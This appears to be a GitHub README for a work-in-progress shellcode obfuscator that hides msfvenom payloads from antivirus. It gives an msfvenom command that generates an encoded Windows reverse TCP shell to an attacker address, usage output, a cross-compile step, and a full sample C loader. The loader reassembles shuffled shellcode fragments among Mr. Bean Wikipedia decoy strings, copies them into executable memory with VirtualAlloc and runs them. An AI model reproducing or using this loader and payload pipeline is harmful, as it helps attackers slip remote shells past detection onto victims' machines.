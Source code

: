 ### WIP
Takes a given shellcode file (generated using msfvenom, for example), shuffle and randomise the shellcode, then generate a C source file to be compiled. 

- Obfuscation Through Memory Manipulation: By using `memcpy` to dynamically assemble the shellcode in memory, effectively hiding the malicious code from static analysis tools.
- Dynamic Reassembly at Runtime: The shellcode is only assembled and becomes recognizable as such during runtime, which helps in evading detection mechanisms that scan executable files before they are run.
- Flexibility: Can be applied to various types of shellcode as long as they are compatible with Windows.

## Usage

Using a shellcode file, using `msfvenom`, for example:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -e x86/shikata_ga_nai -i 8 -f c > shellcode.c
```
Use the script to obfuscate the shellcode:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 30 -c 5 -df mr.bean_wikipedia.html -db 60 -min 3 -max 5 -fm 10 
Shellcode size: 540 bytes
Decoy size: 585859 bytes
Fragment count: 4278
File size: 1433798 bytes
File saved to shell.c
```
Compile:

```bash
i686-w64-mingw32-gcc shell.c -o shell.exe
```
Profit?

## Options

`-s` / `--shellcode-file`: Specifies the input file containing the shellcode. This file should contain the shellcode that will be obfuscated by the script. The shellcode is expected to be in a raw binary or hexadecimal format.

`-o` / `--output`: Designates the output file name for the generated C source code. If not specified, the script defaults to creating a file named `shell.c`. This file will contain the obfuscated shellcode.

`-c` / `--chunks`: Sets the number of chunks into which the shellcode will be split. The script divides the shellcode into this specified number of parts for obfuscation. A lower number results in fewer, larger chunks, while a higher number creates more, smaller chunks.

`-df` / `--decoy-file`: Specifies an optional decoy file. The content of this file is used to create additional obfuscated fragments within the generated C source. If not provided, the script will only use randomly generated decoy data.

`-db` / `--decoy-bias`: Determines the likelihood (in percent) that fragments from the decoy file will be used in the generated C source. A higher value increases the probability of using decoy file content in the obfuscation process.

`-dm` / `--decoy-multiplier`: Defines the ratio of decoy fragments to real shellcode fragments. For example, a value of 4 means there will be four times as many decoy fragments as real shellcode fragments. This enhances the obfuscation by adding more non-functional code fragments.

`-min` / `--min-frag-size`: Sets the minimum size for each fragment in bytes. This parameter controls the smallest allowable size for both shellcode and decoy fragments. Smaller fragment sizes can lead to more complex obfuscation.

`-max` / `--max-frag-size`: Specifies the maximum size for each fragment in bytes. It sets the upper limit for the size of the fragments. Larger fragments can reduce complexity but may be less obfuscated.

`-fm` / `--fragment_multiplier`: Affects the length of decoy fragments. This multiplier is applied to the length of decoy fragments, allowing for variability in their size compared to real shellcode fragments. A higher value results in longer decoy fragments.

## Sample output:

This is kept short for readability, it can easily generate thousands of lines with the options adjusted.

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 1 -c 1 -df mr.bean_wikipedia.html -min 50 -max 50 -fm 1
```

```c
#include <stdio.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {
    unsigned char main[] = "\x14\x25\x2c\xde\x7d\x44\xfa\x91\x75\x8a\x89\xf3\x87\x40\x7c\x23\xf7\x27\x35\x58\xe5\xac\xd0\x37\xb2\xf7\xa0\x4d\x87\x34\xeb\x53\xed\xd7\x8b\x63\x80\xd1\xc6\x90\x5f\x28\xb6\xd2\xd5\xc4\x81\xa2\x41\xa3\x58\xb0\x08\x04\x2c\xc8\x72\x45\x24\x77\xf7\x90\xfa\x4e\xf3\x30\x24\x2f\xc9\x07\x74\x4a\x88\x5b\x7e\x0e\x07\x49\x08\xed\xaf\x60\x0f\x1b\xa7\xff\x5c\x2d\x9d\xcb\x72\x5e\x4e\x90\x09\x6c\x8b\x69\x45\x9d\x11\xe6\x77\xd0\x24\x0c\xf7\x85\x6b\xa4\x54\xc3\xcc\xcd\xfa\xb6\x6f\xac\xde\x49\x58\x9c\xe2\x93\xeb\x39\xc2\xc3\xf4\x8c\xab\xa9\x76\x4a\xb9\xbc\x7f\x99\x23\xae\x9e\xc3\x23\x86\xe2\xf5\x62\xbf\xd9\xe4\x56\x26\xa5\xb7\x12\x95\x19\x0d\x82\xb7\x81\x99\x0f\xa3\x80\x4b\x3d\x3c\x41\x2c\xca\xcc\xc0\x37\xa2\xb2\x05\x39\x70\x5f\x6a\xec\xd6\x28\x74\xfb\x2b\xc7\x03\x10\xa7\x66\x08\xcc\xa6\x51\x77\x4d\x5d\x4c\x18\x71\xda\x18\xaf\x1d\x9a\x17\x46\xc4\x88\x1d\xc3\x02\xbf\x79\x47\xb2\xa8\xbc\x6f\xa7\x75\x9c\xc9\x1d\x56\x37\xe4\x2f\xe1\xc3\xca\x96\xbf\x2c\x7f\xc7\x32\x2f\x49\xb1\xe2\x15\x07\x62\xae\x9a\x5d\x50\x55\xdd\x7a\xb0\x05\x84\xdb\x0d\x90\x5e\xc5\x9a\xef\xae\xcd\x19\x41\x15\x98\xb7\xc8\x7c\x9e\x72\xb7\x8f\xce\x3b\x9c\xf6\x52\x77\x97\xe5\xe4\x58\x94\xd1\x86\x71\x85\x64\x4f\x0b\xf9\x26\xe1\xb7\x29\x5a\xa7\x4e\x34\x74\x31\x87\x4f\x2e\xfc\x7b\x96\xe4\xfa\xd3\xed\xb6\xfb\x98\xd3\x73\x17\x9f\xe2\x95\xcf\xcd\xbe\x24\x56\x9b\x3b\x3c\x79\x12\x51\x3f\x78\x6a\x40\x55\x3c\x2b\x7b\xc8\x0f\x07\x25\x35\x03\xb4\xc2\x6b\xe4\x0f\xc7\x6b\x08\xeb\x39\xd2\x5a\x09\x47\x73\x11\xd6\x2e\x02\x2a\x21\xbc\x88\x06\x26\xde\xd0\xfd\x61\x82\x35\x81\xe7\x0e\x1a\xc6\xd4\x74\x13\x07\x06\xaa\xa1\x64\x78\x82\x1b\x25\xe9\xdd\xbe\xe4\xf3\xe0\x88\xa6\x33\x24\xd9\xaa\x27\x61\x05\x45\xda\xab\x52\x98\x14\xcb\x52\x5a\xfd\x33\x8e\xd3\xff\x51\xc6\x41\x86\xbc\x0e\x9c\xe0\xd7\x00\xbc\x04\x9e\x83\xe4\x13\x6d\xac\x0f\x52\xe9\x85\x8d\xde\x7b\x01\x14\xb8\x68\x2b\x70\xa0\xc7\x77\xbf\x5f\x0a\xa4\x2a\xc0\xd5\xe6\x1f\x15\xbb\x18\x7e\xf1\xef\xda\x3b\x57\x0d\xcf\xcb\xb1\xb8\x78\x38\x96\x84\x71\xb5\x77\x77\xb5\x1b\xb0\x9d\x56\x06\x89\xf7\xde\x05\xba\xd5\xc0\x39\x01\x61\xec\x0d\x83\x6f\xf3\x39\x51\xc3\x25\x8e\x44\xa0\xfe\xb9\xb8\x14\x50\xc4\x6b\x6a\xf1\x41\xb8\x84\x03\xf0\x9c\x1f\x61\x18\x2d\x17\xe2";



    unsigned char block0[540] = "\xd3\xcf\xaf\x59\xff\x50\x39\x6a\xa6\x15\xb4\x7b\x40\x2b\x98\x00\x44\xd1\x81\xf0\x79\xb1\xb9\x5e\x82\x4d\xd7\x0a\x93\xa2\x15\xa3\x2f\x89\x2b\x9d\x99\xe3\xed\x04\x52\xbe\x08\xb6\x6c\x4f\xad\x50\xf8\xbf\xee\x0a\xe8\xe4\x0e\x8d\xc2\x93\xad\x21\xa4\x89\x05\x09\x29\x95\xd7\x0b\x54\xa5\xf8\x6c\x9d\x30\x7d\xd6\x0b\x06\x92\xdc\xe8\x3d\x35\x1d\xa9\xd3\x26\x41\x08\xd1\xd5\xe7\x24\xcf\xfe\x22\xfe\x4b\x1e\x06\x2b\xc1\xda\x81\x67\x9f\x32\x94\x4d\x19\x0a\x94\xb0\x60\x4d\xe2\x3d\x7c\xb2\xa5\x54\x46\x6c\x41\x51\xca\x6f\x84\x25\x36\x9b\x40\x13\x4c\xa7\x6c\x7d\x6f\xab\x42\x3a\x6a\xa0\x3f\x4e\xc9\x35\xa3\x05\x27\x8e\x1f\x26\xc7\x54\xf9\xfb\x07\x0a\xc3\xdb\xda\x0f\x9f\x5c\x4c\xf9\xa3\x08\x8e\x1c\xf6\x6d\xc7\x6c\xb4\x19\xf2\xc7\x6e\x6a\x13\x97\x68\xf3\xae\xad\xa2\x2c\x37\x14\xc7\x4e\x77\xb2\xed\xb6\x3f\x99\xa8\xfa\x58\x21\x10\x03\x17\xb5\xb4\x09\x9b\x30\xad\x88\x5d\x51\x06\x11\x84\x1c\x58\x6b\xa1\x08\x5f\xde\xb9\x10\xbf\x97\x1f\x30\x99\x31\x3f\x60\x04\xd6\xa1\x0f\xf0\x98\x15\x0f\x69\xa7\x3a\xa5\xec\x08\xa4\x72\xd1\x8b\x3b\xe3\x4c\x54\xa5\xa4\x24\xb4\xbb\x16\x26\x3d\xec\x4e\xbf\xaf\xaa\xf4\x81\xd0\x7e\x04\x8a\xf1\x16\xc4\x93\x52\x91\x7b\xf9\x9a\xeb\x54\xec\x2b\x91\x07\x11\xf1\x00\x35\x4e\xa6\x1b\xbc\xee\x68\xb9\xee\x35\x9e\xf0\x7d\x5a\x24\x3e\xbe\xad\x60\x7d\xa1\x61\xfc\x14\x63\xd7\x69\x31\xe3\xbb\x9a\xbb\x52\x58\xee\x1f\xc7\x67\xb9\x72\xf0\xc5\x6a\xb7\x61\x25\xc1\x77\xc6\x49\x28\xd8\x5f\xad\xa7\xa4\xe2\xf5\x70\xda\xa1\x45\x09\x2f\xd0\x31\x22\x31\x7e\x97\x66\xc4\x15\x66\xd8\x73\x46\x55\xd0\xe2\x65\x3c\x00\x0c\xcb\x04\x47\xa5\x06\xb1\xe2\xa6\xdd\x17\xc7\x99\xb5\x5d\xac\x6a\x8f\xa5\x93\xd2\xc7\x2e\x34\x3b\x91\xe1\x3b\x09\xe8\xbb\x6a\x2e\xd5\x23\xa7\x4d\xa0\x91\xaa\x86\xe6\x40\xf8\xab\xa4\x40\x7b\x69\x37\xc4\x47\xf3\xfd\xb8\x34\x93\xa0\x1e\x52\xdc\x91\x3d\xc0\x77\x9e\x8f\x4e\xf8\xa6\xdd\x84\xee\xff\x96\xcc\xa5\xfc\x34\xca\x05\x71\x43\xbd\x35\xde\xbd\x52\xa5\xee\x71\x68\xa6\x2b\x29\x8a\x20\x2c\x6e\xf1\x9e\x24\x47\x86\xca\x91\xd8\x41\xc8\x09\x8c\x72\x2f\xad\x78\xf5\x5c\x7b\xa9\x9b\x9d\x9d\x39\xce\x97\x6e\x04\x97\x16\x54\xfd\xcf\x42\x85\xa6\x7d\x03\x04\x5e\xc4\xc0\x0f\xac\x89\xe1\x82\x50\xf4\xf6\xc9\xa9\x6c\x18\xbe\x33\x66\x29\x85\xe0\x48\xea\x5a\x7d";
    char _0a[] = "v></div>\n\t\t\t\t\t<div id=\"catlinks\" class=\"catlinks\" data-mw=\"interface\"><div id=\"mw-normal-catlinks\" class=\"mw-normal-catlinks\"><a href=\"/wiki/Help:Category\" title=\"Help:Category\">Categories</a>: <ul><li><a href=\"/wiki/Category:1990_British_television_series_debuts\" title=\"Category:1990 British television series debuts\">1990 British television series debuts</a></li><li><a href=\"/wiki/Category:1990s_British_sitcoms\" title=\"Category:1990s British sitcoms\">1990s British sitcoms</a></li><li><a href=\"/";
    unsigned char _0b[] = "\xfb\x52\x24\xfe\x66\x63\x8d\x38\xbb\x5b\x13\xd8\x60\xea\xf0\x62\xba\x99\x74\x2c\x85\x02\x8f\xb2\x43\xd2\x97\x3c\xcc\x93\xc7\x2f\xd0\xff\xa8\x5b\x1d\x73\x23\xe4\xc1\x47\xd5\x3b\xb2\x5e\x87\x68\x0e\x61";
    unsigned char _0c[] = "\x36\xf7\x4f\x18\x4a\x62\x2e\xc1\x72\x61\x18\x5b\xe0\xf4\x8b\xb2\x31\xd9\x1a\x99\x2b\x7b\xc5\xe1\x4d\x23\xce\x28\x89\xb7\xfe\x18\x1d\x51\x56\x13\x1d\x87\x3f\xa2\x4c\xd3\xe8\x0a\x2b\xd0\x28\x6f\x4e\x76";
    unsigned char _0d[] = "\x9f\xe2\x79\x8e\xa6\xb1\x27\x2f\xa5\x00\x5b\xe0\xbd\xcc\x88\x88\xb5\x95\xde\x31\xdb\x92\x03\xd3\x3a\x67\x1b\xf0\xfd\x83\xae\x4d\xc7\x83\x0f\xaf\x89\x2c\x75\x03\x9e\xb8\x7d\x0e\x4d\x8b\x30\x30\xea\xc3";
    unsigned char _0e[] = "\x0c\xe8\x9e\xcf\xf6\xff\xb8\x77\x27\x00\x6d\x05\x03\x0e\x95\xee\xea\x69\x71\xe3\xdb\x12\x30\x5a\xde\xbd\x31\x4d\x35\xce\xcd\xd0\x62\x89\xee\x24\x25\xad\x07\x6e\x6d\x59\x70\xaf\xd8\x86\x69\xae\x40\x64";
    unsigned char _0f[] = "\xdd\x5d\x42\x57\x53\xcd\x8e\xc6\xa5\xe1\x18\x74\xf3\xbd\x99\x16\xac\x14\x7e\xb0\x9a\x06\x9a\x72\x1f\x86\x24\x59\x9d\x03\x37\x12\x34\x71\x2a\x98\xef\xa9\x11\x8d\x71\xf1\xd2\xff\x8f\x15\xf3\x2c\x28\x62";
    unsigned char _0g[] = "\x30\xf0\x25\xa9\x84\x4c\x28\x33\x0b\x2d\x48\xc9\x3c\x15\x70\x9e\xf8\x4a\x37\x07\xd8\x83\x1c\x1b\xfc\x16\xda\x92\xbd\x43\x1d\xda\x46\xb2\x35\x18\x8c\x00\x23\xcf\xf8\xbd\xd6\xe6\xbd\xc0\xe0\xd6\x3f\x5b";
    unsigned char _0h[] = "\x54\x9d\x25\xcd\xb2\x8c\x66\x0b\x08\x0e\x0f\x6f\xe1\xed\x69\x6c\xf1\x50\x79\x27\x04\xdb\xee\xcb\xe0\xb7\x92\xf0\xdb\x62\xf0\x42\x2f\x2b\xf5\x1f\x8d\xf9\xff\x22\x6d\x96\x71\x54\x4a\x7b\x34\xed\x64\x66";
    unsigned char _0i[] = "\x9d\x28\x42\xf5\xb3\x98\x97\xa3\xf1\x34\x33\x92\xc2\x25\x16\x91\x29\xec\x70\xb6\x48\xf9\xa2\xdb\x12\x38\x23\x0b\xdb\x5a\x9f\x68\x03\x8d\x98\xf8\x06\x0b\xdf\xd7\xce\x8e\x5d\xa5\xce\x6b\xa4\x47\x16\x6c";
    unsigned char _0j[] = "\x38\xa9\xb9\xf8\xb1\x82\x3e\xaf\x3f\x63\xf5\x58\xc9\x20\xc8\xc9\x6a\x5c\x3e\xff\xb3\x01\xac\x14\xcc\x4c\xb9\xbc\xa2\x3c\x10\xaf\xb9\x2e\x8e\xf2\x16\xc2\x38\xe7\xd7\x78\x65\x1d\x7e\x43\x72\x5b\x8a\x3a";
    unsigned char _0k[] = "\xf3\x54\x9f\x53\xfc\xcf\x48\x65\x38\xda\xab\xfb\xfb\x8c\x37\xc5\xa4\xc4\x7a\xa2\xd7\x94\xf8\x2e\x95\x0d\xb4\x2c\x55\x11\xf5\x8a\x26\x73\x46\x65\x73\xb5\x03\x65\xa8\xb8\x3e\x50\x96\x9a\x60\x8a\x73\x73";
    unsigned char _0l[] = "\xd9\xcb\xba\x87\x8c\x67\x44\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x81\x83\xc5\x04\x31\x55\x14\x03\x55\x93\x6e\x92\xfb\x7d\xb6\xef\xfe\x5a\x88\xc9\x8b\x78\xe3\xb2\x58\x49\xba\x39\xae\x31\xa9\x3e\x38\x3d\xd2";
    char _0m[] = "tom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._Bean\" title=\"Template:Mr. Bean\"><abbr title=\"View this template\" style=\";;background:none transparent;border:none;box-shadow:none;padding:0;\">v</abbr></a></li><li class=\"nv-talk\"><a href=\"/wiki/Template_talk:Mr._Bean\" titl";
    char _0n[] = "tent:\" ]\"}.mw-parser-output .navbar li{word-spacing:-0.125em}.mw-parser-output .navbar a>span,.mw-parser-output .navbar a>abbr{text-decoration:inherit}.mw-parser-output .navbar-mini abbr{font-variant:small-caps;border-bottom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._B";
    unsigned char _0o[] = "\x2a\x2e\x11\x9f\xd6\x2b\xae\x83\x60\x47\x03\x5c\x3d\xae\x5b\x55\x16\xc1\xea\x0a\xf8\x2e\x58\x1f\x9b\x8d\xf1\x8b\x52\x1d\x47\x21\x77\x65\x43\xf2\x13\x1c\x25\x94\x2d\x3e\xba\x25\x56\xd8\x4d\xe3\xb9\x5e";
    unsigned char _0p[] = "\xe6\x47\x0c\xd3\x7b\xd0\xf1\x91\x86\x08\xc9\x2a\x5c\x05\x8f\xef\xe3\x9b\x70\x5a\xf3\x07\xc9\xa4\xa6\x53\x64\xcc\x2a\x9f\xe5\xe2\x8e\x5d\xac\x61\xde\x01\xa8\x9a\x87\xa6\x69\x9e\x54\xe9\xd4\x31\xbf\xd9";
    unsigned char _0q[] = "\xb9\xe9\x34\x52\xdf\xca\xdd\xdd\xf9\x2a\xb3\x9d\x8c\x36\x32\x03\xe3\xa6\x15\x1a\x02\x13\xbf\x2d\x74\x31\x8a\x84\x00\x44\x14\x8d\x3b\x23\x44\xca\xab\xfe\xb0\x64\x74\xd6\x7b\xb7\xed\x91\xd1\x3a\xb7\x59";
    char _0r[] = "88\"></span></span>\n</li>\n<li id=\"cite_note-57\"><span class=\"mw-cite-backlink\"><b><a href=\"#cite_ref-57\">^</a></b></span> <span class=\"reference-text\"><link rel=\"mw-deduplicated-inline-style\" href=\"mw-data:TemplateStyles:r1133582631\"><cite class=\"citation web cs1\"><a rel=\"nofollow\" class=\"external text\" href=\"https://www.youtube.com/mrbean\">\"Kanaal van MrBean\"</a>. YouTube. 1 January 1990. <a rel=\"nofollow\" class=\"external text\" href=\"https://web.archive.org/web/20100804200604/http://www.youtube.";
    unsigned char _0s[] = "\x5e\x5e\xfe\xf2\x65\xad\x00\xff\x27\xf7\xe2\xa2\x02\xc9\x99\x83\x8a\x5a\xeb\x7f\x17\x88\x09\x36\xe1\x2f\x83\xe8\x1a\xe0\x8c\x91\x6e\xe8\xe8\x73\x0d\x59\x0a\xd9\xaa\x06\x3b\x76\x3c\x47\x82\xe2\x0d\x4d";
    unsigned char _0t[] = "\x5c\x4c\x33\x7a\x3e\xec\xa1\xcd\xff\xb6\xc6\x7f\x7c\xf3\xda\x43\x98\xe4\x28\x18\x2b\x4e\xa0\xae\x22\x1e\xf2\x5c\x2c\xd2\x1b\xd1\x86\xaa\x71\xec\x59\x75\xb5\xce\x6c\x47\x77\x4f\x94\xde\xf9\x03\x8d\xb3";
    unsigned char _0u[] = "\xed\x0b\x35\x44\x92\x49\xff\x2c\x7c\xcd\x9c\x97\xee\x4d\x61\xf2\xf6\x01\x95\xdc\x06\xd5\xc9\x78\x9b\xc9\x1f\x5f\xd3\x43\x04\xde\x26\x26\xc1\x1a\xaa\x47\xf7\xdf";
    unsigned char _0v[] = "\x99\x84\xe3\x65\x9d\x94\x56\xfd\xd5\x44\xbb\xb5\x60\x00\xbc\x16\x22\xba\x47\x33\xec\xe2\xc9\x55\x16\xbe\x9f\xf6\x93\x32\x2f\xf9\x50\xc7\x43\xe5\x11\xee\xbe\x79\xea\x65\xd5\x25\x87\xe3\x26\x50\xe4\x9d";
    memcpy(block0 + 450, _0d, sizeof(_0d) - 1);
    memcpy(block0 + 400, _0f, sizeof(_0f) - 1);
    memcpy(block0 + 200, _0g, sizeof(_0g) - 1);
    memcpy(block0 + 350, _0i, sizeof(_0i) - 1);
    memcpy(block0 + 50, _0j, sizeof(_0j) - 1);
    memcpy(block0 + 0, _0l, sizeof(_0l) - 1);
    memcpy(block0 + 150, _0p, sizeof(_0p) - 1);
    memcpy(block0 + 250, _0q, sizeof(_0q) - 1);
    memcpy(block0 + 300, _0s, sizeof(_0s) - 1);
    memcpy(block0 + 100, _0t, sizeof(_0t) - 1);
    memcpy(block0 + 500, _0u, sizeof(_0u) - 1);

    void* exec = VirtualAlloc(0, sizeof main, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(main + 0, block0, sizeof(block0));


    memcpy(exec, main, sizeof(main));
    ((void(*)())exec)();

    return 0;
}
```
